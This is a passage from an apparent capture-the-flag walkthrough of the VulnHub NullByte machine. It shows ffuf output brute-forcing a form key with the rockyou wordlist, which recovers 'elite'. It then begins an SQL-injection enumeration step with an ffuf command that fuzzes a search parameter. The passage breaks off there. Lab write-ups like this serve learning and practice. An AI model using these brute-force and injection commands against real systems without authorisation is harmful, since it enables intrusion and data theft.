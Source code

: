 			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : POST
	 :: URL              : http://192.168.110.11/kzMb5nVYJw/index.php
	 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
	 :: Header           : Content-Type: application/x-www-form-urlencoded
	 :: Data             : key=FUZZ
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 19
	________________________________________________

	elite                   [Status: 200, Size: 145, Words: 9, Lines: 7]
	```
8. Submit form w/ elite
	![](images/Pasted%20image%2020220203205259.png)
	
## TCP/80 - HTTP - SQLi Database Enum w/ SQLMap
9. Check if it is susceptible to SQLi
	```
	┌──(root💀kali)-[~/vulnHub/NullByte]
	└─# ffuf -u http://192.168.110.11/kzMb5nVYJw/420search.php?usrtosearch=FUZZ -w /usr/share/wordlists/sqli/vulnCheck.txt -fw 3
